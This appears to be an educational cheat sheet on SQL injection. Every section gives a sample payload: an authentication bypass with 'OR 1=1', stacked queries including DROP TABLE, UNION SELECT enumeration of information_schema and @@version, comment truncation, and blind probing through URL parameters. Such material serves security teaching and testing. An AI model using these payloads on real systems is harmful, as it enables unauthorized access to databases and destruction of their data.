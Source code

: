 ```
```
# Example - Injecting Your Statement
```
User enters tom' OR 1='1 in the name and pass fields.
Truth Statement: tom ' OR 1='1
Server-Side query executed would appear like this:
SELECT id FROM users WHERE name=‘tom' OR 1='1’ AND pass=‘tom' OR 1='1’
```
# Stacking Statements
```
Chaining multiple statements together using a semi-colon ;
SELECT * FROM user WHERE id=‘Johnny'; DROP TABLE Customers; --’
```
# Nesting statements
```
Some Web Application + SQL Database combinations do not allow stacking, such as PHP and MySQL.
Though they may allow for nesting a statement within an existing one:
php?key=<value> UNION SELECT 1,column_name,3 from information_schema.columns where table_name = 'members'
```
# Ignore the rest
```
Using # or -- tells the Database to ignore everything after
Server-Side Query:
SELECT product FROM item WHERE id = $select limit 1;
Input to Inject:
1 or 1=1; #
Server-Side Query becomes:
SELECT product FROM item WHERE id = 1 or 1=1; # limit 1;
```
# Blind Injection
```
Inlcudes Statements to determine how DB is configured
  Columns in Output
  Can we return errors
  Can we return expected Output
Used when unsanitized fields give generic error or no messages
       Normal Query to pull expected output:
       php?item=4
       Blind injection for validation:
       php?item=4 OR 1=1
Try ALL combinations! item=1, item=2, item=3, etc
```
# Abuse The Client (GET METHOD)
```
Passing injection through the URL:
After the .php?item=4 pass your UNION statement
prices.php?item=4 UNION SELECT 1,2
prices.php?item=4 UNION SELECT 1,2,@@version
What is @@version?
```
# Abuse The Client (Enum)
```
Identifying the schema leads to detailed queries to enumerate the DB
```